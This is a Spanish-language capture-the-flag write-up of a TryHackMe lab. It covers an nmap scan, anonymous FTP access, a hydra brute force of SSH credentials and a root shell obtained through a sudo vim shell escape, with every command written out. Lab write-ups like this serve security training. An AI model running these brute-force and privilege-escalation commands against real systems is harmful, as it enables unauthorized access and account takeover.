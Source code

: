 Bienvenidos a otra sala de tryhackme. Realizamos nuestro escaneo con la herramienta bien conocida para descubrir puertos abiertos. Secuestramos una nota dejada a un usuario con debilidad de password y utilizaremos hydra para descubrirla y establecer una conexion en shh, para luego escalar privilegios en el sistema abusando vim.

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.23s latency).
Scanned at 2023-07-03 07:28:54 EDT for 35s
Not shown: 65532 filtered ports
Reason: 65532 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 63 vsftpd 3.0.3
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo de nmap nos muestra 3 puertos abiertos. Podemos ingresar al servicio ftp con usuario Anonymous para ver si podemos secuestrar alguna nota o algo que nos interese.

```bash
ftp IPTARGET
User:Anonymous
```

Descubrimos una nota para mitch, que se trata de su seguridad utilizando la misma password.
Podemos descubrir directorios ocultos en gobuster y descubrir el CMS con su version. Luego buscar el exploit por internet y crackear la password de mitch.
O bien, en  mi caso, usare hydra para descubrir sus credenciales ssh porque no posee mucha seguridad en su password.

# Intrusion

Ejecutamos hydra para descubrir  las credenciales de mitch y asi establecer una conexion ssh en nuestro sistema. Tenemos que indicarle el puerto, ya que si lo lanzamos sin indicarselo, hydra tomara el puerto por defecto 22.

```bash
hydra -l mitch -P /Path/Wordlist ssh://IPTARGET -s 2222 -vV
```

Descubrimos su password y lo siguiente es establecer la conexion ssh

```bash
ssh mitch@IPTARGET -p 2222
```

# Priv.Escalation

Listamos permisos sudo `sudo -l` y mitch tiene permisos root alojados en /usr/bin/vim.
Para escalar privilegios con vim, ejecutamos lo siguiente:

```bash
sudo vim -c ':!/bin/sh'
```

La informacion esta en https://gtfobins.github.io/gtfobins/vim/